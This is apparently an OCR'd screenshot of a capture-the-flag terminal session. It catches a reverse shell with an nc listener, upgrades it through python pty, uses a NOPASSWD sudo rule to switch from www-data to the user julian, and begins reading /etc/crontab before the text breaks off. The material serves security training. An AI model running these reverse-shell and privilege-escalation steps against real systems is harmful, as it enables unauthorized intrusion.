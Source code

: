  18:50:25 up 47 min,  0 users,  load average: 0.00, 0.00, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ which python3
/usr/bin/python3
$ python3 -c 'import pty;pty.spawn("/bin/bash")
> ^Z
[3]  + 450621 suspended  nc -lvnp 4443
➜  zSecurity_Client_CTF nc -lvnp 4443
listening on [any] 4443 ...
connect to [10.8.5.88] from (UNKNOWN) [10.10.34.138] 34490
Linux client-ctf 4.15.0-147-generic #151-Ubuntu SMP Fri Jun 18 19:21:19 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 18:51:01 up 48 min,  0 users,  load average: 0.00, 0.00, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@client-ctf:/$ cd
cd
bash: cd: HOME not set
www-data@client-ctf:/$ export TERM=xterm
export TERM=xterm
www-data@client-ctf:/$ sudo -l       
sudo -l
Matching Defaults entries for www-data on client-ctf:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on client-ctf:
    (julian) NOPASSWD: /bin/ash
www-data@client-ctf:/$ sudo -u julian /bin/ash
sudo -u julian /bin/ash
$ id
id
uid=1000(julian) gid=1000(julian) groups=1000(julian),4(adm),24(cdrom),30(dip),46(plugdev)
$ which python3
which python3
/usr/bin/python3
$ python3 -c 'import pty;pty.spawn ("/bin/bash")'
python3 -c 'import pty;pty.spawn ("/bin/bash")'
julian@client-ctf:/$ ls
ls
bin    dev   initrd.img      lib64       mnt   root  snap      sys  var
boot   etc   initrd.img.old  lost+found  opt   run   srv       tmp  vmlinuz
cdrom  home  lib             media       proc  sbin  swap.img  usr  vmlinuz.old
julian@client-ctf:/$ cat /etc/crontab
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,